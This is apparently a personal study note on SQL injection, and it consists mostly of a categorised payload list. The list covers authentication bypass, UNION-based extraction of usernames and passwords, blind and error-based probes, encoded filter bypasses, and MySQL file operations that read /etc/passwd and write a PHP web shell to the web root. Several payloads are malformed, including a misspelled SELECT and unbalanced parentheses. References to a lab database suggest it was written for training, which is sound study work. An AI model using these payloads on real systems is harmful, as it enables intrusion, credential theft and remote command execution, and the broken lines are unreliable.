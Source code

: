 
[[6. Injection Attacks]]
[[1. SQLMAP]]

## What is SQL Injection ? 

- **SQL Injection is a web vulnerability where an attacker ==injects malicious SQL code into an application’s database query via user input== (e.g., a URL parameter, form field, or cookie).**

- *If the app doesn’t sanitize inputs, the injected code can manipulate the query to extract data, bypass authentication, or even execute commands.


## SQL Injection Cheat sheet : 

https://portswigger.net/web-security/sql-injection/cheat-sheet

## List of payloads of SQLi : 

1. **Classic SQLi Payloads** : 

	- `1 OR 1=1`
	- `1 OR '1'='1`
	- `1' OR '1'='1`
	- `1" OR "1"="1`
	- `1 --`
	- `1 #`
	- `1/*`
	- `1' --`
	- `1' #`
	- `1'/*`
	
2. **Authentication Bypass Payloads :** 

	- `admin' OR 1=1 --`
	- `admin' OR '1'='1' --`
	- `admin' OR 1=1#`
	- `admin' OR '1'='1'#`
	- `admin' OR 1=1/*`
	- `jeremy' OR 1=1#`
	- `jeremy' OR '1'='1' --`
	- `' OR ''='`
	- `' OR '1'='1`
	- `admin" OR "1"="1 --`
	- `") OR ("1"="1`
	- `') OR ('1'='1`

3. **UNION-Based Payloads : **

	- `1 UNION SELECT 1,2`
	- `1 UNION SELECT 1,2,3`
	- `1 UNION SELECT 1,@@version,3`
	- `1 UNION SELECT 1,database(),3`
	- `1 UNION SELECT 1,schema_name,3 FROM information_schema.schemata`
	- `1 UNION SELECT 1,table_name,3 FROM information_schema.tables`
	- `1 UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema='lab_db'`
	- `1 UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'`
	- `1 UNION SELECT 1,username,password FROM users`
	- `1 UNION SELECT 1,flag,3 FROM flags`
	- `1 UNION SELECT 1,secret,3 FROM secrets`
	- `1 UNION SELECT 1,concat(username,':',password),3 FROM users`
	- `1 UNION SELECT 1,2,3 (for invalid IDs)`
	- `1 UNION ALL SELECT 1,2,3`

4. **Blind Boolean-Based Payloads :**

	- `1 AND 1=1`
	- `1 AND 1=2`
	- `1 AND (SELECT 1 FROM users WHERE username='admin')=1`
	- `1 AND (SELECT 1 FROM users WHERE username='jeremy')=1`
	- `1 AND (SELECT count(*) FROM users)>0`
	- `1 AND (SELECT length(database()))=7`
	- `1 AND ascii(substring((SELECT database()),1,1))=108 (extracts l from lab_db)`

5. **File Operation Payloads (MySQL) :**

	- `1 UNION SELECT 1,LOAD_FILE('/etc/passwd'),3`
	- `1 UNION SELECT 1,LOAD_FILE('/var/www/html/config.php'),3`
	- `1 UNION SELECT 1,LOAD_FILE('/var/www/html/flag.txt'),3`
	- `1 UNION SELECT 1,'<?php system($_GET["cmd"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php'`
	- `1 UNION SELECT 1,@@secure_file_priv,3 (check file access restrictions)`

6. **Encoded Payloads (Bypass Filters) :**

	- `1%27%20OR%20%271%27=%271 (' OR '1'='1)`
	- `%27%20OR%201=1%23 (' OR 1=1#)`
	- `1%20UNION%20SELECT%201%2C@@version%2C3`
		-  `1%20AND%20IF%28ascii%28substring%28%28SELECT%20database%28%29%29%2C1%2C1%29%29=108%2CSLEEP%285%29%2C0%29`

7. **Miscellaneous Payloads :**

	- `1 ORDER BY 1 (test column count)`
	- `1 ORDER BY 2`
	- `1 ORDER BY 3`
	- `1 UNION SELECT 1,v` ersion (), 3
	- `1 AND (SELECT 1)=1`
	- `1' AND '1'='1`
	- `1" AND "1"="1`
	- `1 OR true`
	- `1 AND false`

8. **Error-Based Payloads (MySQL) :**

	- `1 AND extractvalue(1,concat(0x7e,(SELECT @@version)))`
	- `1 AND (SELECT 1 FROM (SELECT count(*),concat((SELEC database()),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) ) )a)`
	- `1' AND extractvalue(1,concat(0x7e,(SELECT username FROM users LIMIT 0,1)))#`